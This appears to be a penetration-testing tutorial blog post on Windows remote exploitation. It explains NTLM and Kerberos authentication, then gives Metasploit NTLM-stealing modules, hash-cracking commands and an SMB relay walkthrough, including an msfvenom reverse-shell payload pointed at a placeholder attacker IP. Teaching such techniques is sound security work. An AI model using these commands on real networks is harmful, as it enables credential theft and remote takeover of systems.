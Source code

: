 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation Techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in Linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that [blog post](https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/) .**



**Remote Exploitation of Windows Network**

The exploitation process in which attackers exploit's listening services on the target network and tries to get access to the target system.




**Windows Authentication**

Windows uses two types of authentication protocols for clients and server authentication, NTLM and Kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client sends the username to the server to authenticate itself.

3.  Then the server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then the server sends, user name, challenge sent to the client, the response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More About NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)


[LM/NT hashes Explanation](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use Kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by Unix systems nowadays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends a network authentication request including TGT and name of the target server, for example, MS Active Directory.

4.  After that Kerberos server reply including session ticket for use with the target server

5.  The client presents a time-stamped session ticket to the target server as the authentication

6.  Finally, the target server provides authentication back to the client.

Authentication Successful!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look at Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** **Important**.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


[John Hashes Formats](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

[rcracki_mt](https://github.com/foreni-packages/rcracki_mt)



Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h: It is used to specify the first 8-bytes of the LMHASH
* -t: It is the number of threads to use
* *.rti: It is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is a tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
``



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on Metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse TCP .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use other windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation all depends on the previous phases of pentesting_** 
